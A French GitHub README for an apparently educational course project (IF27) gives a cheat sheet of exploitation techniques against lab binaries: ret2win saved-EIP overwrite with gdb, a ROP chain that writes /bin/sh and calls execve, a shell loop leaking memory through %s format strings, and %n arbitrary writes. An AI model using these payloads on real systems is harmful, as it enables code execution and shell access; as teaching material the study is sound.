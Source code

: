 # IF27
Fichiers et programmes de la présentation de IF27

**Ce document contient les fichiers et programmes pour réaliser les exploitattions vues dans la présentation et le rapport de IF27**

*Installation*
```
git clone https://github.com/arthubhub/IF27.git
cd docker
./dockerMake.sh
```



*Aide*

# Ret2win :

Trouver l'offset : 
- gdb ./programme
- disass fonction_vulnerable
- b *[adresse après gets()]
- run < A1A2A3A4 ...
- au breakpoint : info frame -> regarder saved eip et en déduire l'offset
Trouver l'adresse de win
- disass win -> prendre l'adresse de la première instruction
- echo -ne "OFFSET\xdd\xcc\xbb\xaa" | ./programme -> remplace saved eip par 0xaabbccdd

# ROPchain :
- trouver les gadgets : ROPgadget --binary ./programme | grep "pop ..x .*; ret"
- mettre /bin/sh à une adresse connue :
pop ebx ; ret
ebx = 0xffffa004
pop eax ; ret
eax = 0x0068732f
mov dword ptr [ebx], eax ; ret

## Le cas de execve :
- execve(”/bin/sh”,0,0)
- le numéro du syscall doit etre dans eax
- x86_32
    - eax=0xB
    - ebx=@ de “/bin/sh”
    - ecx=0
    - edx=0
- x86_64
    - rax=59
    - rdi=@ de “/bin/sh”
    - rsi=0
    - rdx=0

# Format string 

## Lire partout
```
#!/bin/sh
for i in for i in $(seq 1 2000)
do
   echo "%${i}\$s" | ./vuln_format_string | grep "Result of" | strings >> results
done
```
## Écrire où on veut

Pour finir, la chaine de formatage %n nous permet d’écrire. Elle écrit le nombre de caractères affichés jusque là, mais où?. Elle les écrit dans l’adresse qu’on lui donne, en argument. 
Par exemple : 

- `printf(”54321%n”,&i); //écrit 5 dans i`
- `printf(”ab54321%3$n”,&a,&b,&c); //écrit 7 dans c`

Donc ce qu’on peut faire, c’est envoyer une chaine de formatage comme “a1b2%x%x%x…”, compter le nombre de %x jusqu’à atteindre “a1b2”, puis remplacer ce %x par un %n. On écrit alors une valeur à l’adresse “a1b2”. On peut changer la valeur écrite en ajustant le nombre de caractères imprimés en modifiant un %x → %0Nx, par exemple %0134x. Il ne reste plus qu’à remplacer “a1b2” par l’adresse voulue ( \x78\x56\x34\x12 pour l’adresse 12345678 ).

Des options plus avancées sont “a1b2%Ax%B$n”. Cette chaine imprime 4+A dans l’argument numéro B+1.

